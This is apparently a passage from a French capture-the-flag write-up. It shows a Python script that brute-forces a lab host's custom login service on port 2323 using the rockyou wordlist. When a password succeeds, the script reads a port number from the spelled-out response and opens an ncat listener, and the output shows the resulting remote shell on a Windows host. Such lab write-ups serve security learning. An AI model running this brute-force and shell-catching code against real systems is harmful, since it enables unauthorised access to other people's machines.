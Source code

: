 Le code suivant fait le bruteforce + le lancement du listener :

```python
import sys
import socket
import os

from words2num import w2n

sock = socket.socket()
sock.connect(("192.168.56.46", 2323))

def read_until(sock_fd, data):
    while True:
        buff = sock.recv(1024)
        if data in buff.strip():
            break

username = sys.argv[1].encode()
with open(sys.argv[2], "rb") as fd:
    for i, line in enumerate(fd):
        password = line.strip()
        read_until(sock, b"username:")
        sock.send(username + b"\r\n")
        sock.recv(2014)  # Password prompt
        sock.send(password + b"\r\n")
        buff = sock.recv(1024).strip()
        if not buff.startswith(b"Wrong password for user"):
            print(f"password {password.decode()} gave response '{buff.decode()}'")
            port = w2n(buff.decode())
            os.system(f"ncat -v -l -p {port}")
            break

        buff = sock.recv(1024)
        if b"user does not exist" in buff:
            print("No such user")
            break

        if b"bye!" in buff:
            sock.close()
            sock = socket.socket()
            sock.connect(("192.168.56.46", 2323))

        if i % 1000 == 0:
            print("line", i)
```

Exécution :

```shellsession
$ python3 brute.py admin rockyou.txt
line 0
password booboo gave response 'ONE THOUSAND TWO HUNDRED NINETY'
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1290
Ncat: Listening on 0.0.0.0:1290
Ncat: Connection from 192.168.56.46.
Ncat: Connection from 192.168.56.46:42976.
Microsoft Windows 6.1.7601 (4.0)

Z:\home\fox>ls
Can't recognise 'ls' as an internal or external command, or batch script.

Z:\home\fox>dir
Volume in drive Z has no label.
```